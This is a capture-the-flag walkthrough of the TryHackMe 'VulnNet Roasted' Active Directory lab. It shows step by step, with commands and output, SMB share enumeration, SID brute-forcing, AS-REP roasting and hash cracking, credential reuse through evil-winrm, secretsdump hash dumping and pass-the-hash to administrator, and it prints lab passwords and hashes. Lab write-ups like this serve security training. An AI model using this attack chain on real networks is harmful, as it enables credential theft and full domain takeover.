 ```yaml
---
title: Walkthrough - VulnNet Roasted
published: true
---
```


Windows Server, Active Directory, Enumeration, Kerberos, Roasting, SMB, evil-winrm. VulnNet Entertainment quickly deployed another management instance on their very broad network...

[https://tryhackme.com/room/vulnnetroasted](https://tryhackme.com/room/vulnnetroasted)

* * *

## Notes

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-08-14 20:07:55Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open  mc-nmf        .NET Message Framing
```

- `smbclient -L 10.10.65.165` we are allowed to see shars anonymously.

```
Password for [WORKGROUP\0xskar]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
        VulnNet-Business-Anonymous Disk      VulnNet Business Sharing
        VulnNet-Enterprise-Anonymous Disk      VulnNet Enterprise Sharing
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.65.165 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Lets check out what is in the Anonymous shares, and download them.

- `smbclient \\\\10.10.65.165\\VulnNet-Business-Anonymous\\ -N -c 'prompt OFF; recurse ON;mget *'`
- `smbclient \\\\10.10.65.165\\VulnNet-Enterprise-Anonymous\\ -N -c 'prompt OFF; recurse ON;mget *'`

Lots of names in these files, lets try making a list and gathering credentials.

```
alexa
whitehat
jack
goldenhand
tony 
skid
johnny 
leet
```

- check which shares are readable or writable `smbmap -u anonymous -H 10.10.181.27`
- since we have access to `IPC$` anonymously, we can use impacket lookupsid to list domain users `python3 /usr/share/doc/python3-impacket/examples/lookupsid.py anonymous@10.10.181.27 | tee users.txt` and save them to another file so we can extract the users

```
[*] Brute forcing SIDs at 10.10.181.27
[*] StringBinding ncacn_np:10.10.181.27[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-1589833671-435344116-4136949213
498: VULNNET-RST\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: VULNNET-RST\Administrator (SidTypeUser)
501: VULNNET-RST\Guest (SidTypeUser)
502: VULNNET-RST\krbtgt (SidTypeUser)
512: VULNNET-RST\Domain Admins (SidTypeGroup)
513: VULNNET-RST\Domain Users (SidTypeGroup)
514: VULNNET-RST\Domain Guests (SidTypeGroup)
515: VULNNET-RST\Domain Computers (SidTypeGroup)
516: VULNNET-RST\Domain Controllers (SidTypeGroup)
517: VULNNET-RST\Cert Publishers (SidTypeAlias)
518: VULNNET-RST\Schema Admins (SidTypeGroup)
519: VULNNET-RST\Enterprise Admins (SidTypeGroup)
520: VULNNET-RST\Group Policy Creator Owners (SidTypeGroup)
521: VULNNET-RST\Read-only Domain Controllers (SidTypeGroup)
522: VULNNET-RST\Cloneable Domain Controllers (SidTypeGroup)
525: VULNNET-RST\Protected Users (SidTypeGroup)
526: VULNNET-RST\Key Admins (SidTypeGroup)
527: VULNNET-RST\Enterprise Key Admins (SidTypeGroup)
553: VULNNET-RST\RAS and IAS Servers (SidTypeAlias)
571: VULNNET-RST\Allowed RODC Password Replication Group (SidTypeAlias)
572: VULNNET-RST\Denied RODC Password Replication Group (SidTypeAlias)
1000: VULNNET-RST\WIN-2BO8M1OE1M1$ (SidTypeUser)
1101: VULNNET-RST\DnsAdmins (SidTypeAlias)
1102: VULNNET-RST\DnsUpdateProxy (SidTypeGroup)
1104: VULNNET-RST\enterprise-core-vn (SidTypeUser)
1105: VULNNET-RST\a-whitehat (SidTypeUser)
1109: VULNNET-RST\t-skid (SidTypeUser)
1110: VULNNET-RST\j-goldenhand (SidTypeUser)
1111: VULNNET-RST\j-leet (SidTypeUser)
```

- extract the users so we can use the userfile with GetNPUsers.py to find users without Kerberos pre-authentication.
- `grep SidTypeUser users.txt | awk '{print $2}' | cut -d "\\" -f2 > users-cut.txt` 

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/VulnNet-Roasted]
└─$ python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py \                                     
> -dc-ip 10.10.220.192 \
> -usersfile users-cut.txt \
> -no-pass \
> vulnnet-rst.local/
Impacket v0.10.1.dev1+20220606.123812.ac35841f - Copyright 2022 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User WIN-2BO8M1OE1M1$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User enterprise-core-vn doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User a-whitehat doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:bd77ca3bbc7b36c490b15c39c24b304b$30c3c9569c4c75a02e00092806aaf8dd28075a64be0d5fe1cd91729db5ccaf7c53b2a6d27666f3a182b1cb143515d79eb2623d3de05306300efaabaed91cde2cca74ac40ddf335994becac4b915538a2f49cff101261958141f7c2f0dd24828413183d44d8d25b1d3ec77c417ef1e4f577b31a2e0d751def5db906885e16291c49f076660a666b0a8e1a3152dbf50cb58141b7b3f9244fe34bf1d16115555edca83894e65c1bd55ea250f5eb2685c72e1152b5a2390379f56fa78596315328cf64931caba3e73e91703684063987f6574e2f80b7711fc36271dd4805ef9d3b6e37e1ab80140b87ef647d8977adf1accac2859b9989e6
[-] User j-goldenhand doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j-leet doesn't have UF_DONT_REQUIRE_PREAUTH set
```

- crack users hash `john t-skid_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`
- `tj072889*        ($krb5asrep$23$t-skid@VULNNET-RST.LOCAL)`
- `t-skid:tj072889*`

Using these credentials we are not able to access the NETLOGON share on Samba

Within the VBS script file on the share we fine more credientials we can use to access the system

```
strUserNTName = "a-whitehat"
strPassword = "bNdKVkjv3RR9ht"
```

- `evil-winrm -i 10.10.220.192 -u a-whitehat -p "bNdKVkjv3RR9ht"`

* * * 

## What is the content of user.txt?

```
Directory: C:\users\enterprise-core-vn\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        3/13/2021   3:43 PM             39 user.txt
```

* * * 

## What is the content of root.txt?

We can use impackets secretsdump.py to dump hashes

- `python3 /usr/share/doc/python3-impacket/examples/secretsdump.py vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9ht@10.10.220.192`

With the administrator's hash we can connect and get the system flag.

- `evil-winrm -i 10.10.220.192 -u administrator -H "c2597747aa5e43022a3a3049a3c3b09d"`

![0xskar](/assets/vulnnet-roasted01.png)

* * * 

